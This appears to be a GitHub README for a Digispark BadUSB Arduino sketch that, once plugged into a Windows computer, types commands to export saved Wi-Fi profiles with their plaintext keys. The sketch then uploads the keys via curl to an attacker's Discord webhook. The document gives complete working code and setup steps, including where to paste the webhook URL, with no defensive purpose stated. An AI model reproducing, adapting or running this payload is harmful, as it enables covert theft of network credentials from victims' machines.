 ## GRAB AND SEND WIFI PASSWORDS TO YOUR DISCORD CHANNEL

#### STEP 1:
    1.Create a Discord Server/Channel
    
    2.<img width="190" alt="image" src="https://user-images.githubusercontent.com/42895491/195396479-791a9c55-8cce-4035-9ed6-fddf79630f7f.png">
    go to the edit channel option.
    
    3.<img width="207" alt="image" src="https://user-images.githubusercontent.com/42895491/195396622-ef4c814b-2266-43e7-a9cc-673aa92c49bd.png">
    go to integrations.
    
    4.<img width="219" alt="image" src="https://user-images.githubusercontent.com/42895491/195396833-4db55a94-ee94-4f6c-b58b-b6adea0eea8b.png">
    create a new web hook.
    
    5.<img width="493" alt="image" src="https://user-images.githubusercontent.com/42895491/195396911-577f9009-e8a0-40fa-8b22-8c698d072e51.png">
    copy the web hook url.

#### STEP 2:
    <img width="529" alt="image" src="https://user-images.githubusercontent.com/42895491/195396138-5582d418-d9c5-4d3e-820a-19bf4c447756.png">
    change the "FILENAME" to anyname you want your folder to be.
    
    Also Edit the line number 16 in the Arduino code and insert the following details (* most important Webhook url)
    '''
      DigiKeyboard.println("curl -i -H \"Expect:application/json\" -F file=@wifi -F \"payload_json={\\\"wait\\\":true,\\\"content\\\":\\\"ANYCOMMENT\\\",\\\"ANYNAME\\\":\\\"passwords\\\"}\" WEBHOOK_URL"); //curl command which is used to send the passwords to your discord channel/server (**Change replace "WEBHOOK_URL" with your discord's webhook url of any channel.
    '''
  
  #### Example:
  '''
  #include "DigiKeyboard.h"
  void setup() {
  pinMode(1, OUTPUT); //LED on Model A
  }
  void loop() {
    DigiKeyboard.update();
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
    DigiKeyboard.delay(300);
    DigiKeyboard.println("cmd");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("netsh wlan export profile key=clear");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("powershell Select-String -Path Wi-Fi-* -Pattern 'keyMaterial' > wifi");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("curl -i -H \"Expect:application/json\" -F file=@wifi -F \"payload_json={\\\"wait\\\":true,\\\"content\\\":\\\"Ashfaque\\\",\\\"ANYNAME\\\":\\\"passwords\\\"}\" https://discord.com/api/webhooks/996103446740619284/"); // this is a dummy webhook url.
    DigiKeyboard.delay(500);
    DigiKeyboard.println("exit");
    digitalWrite(1, HIGH); //led on
    DigiKeyboard.delay(90000);
  }
'''
  
  ### Your are all set to upload the code.

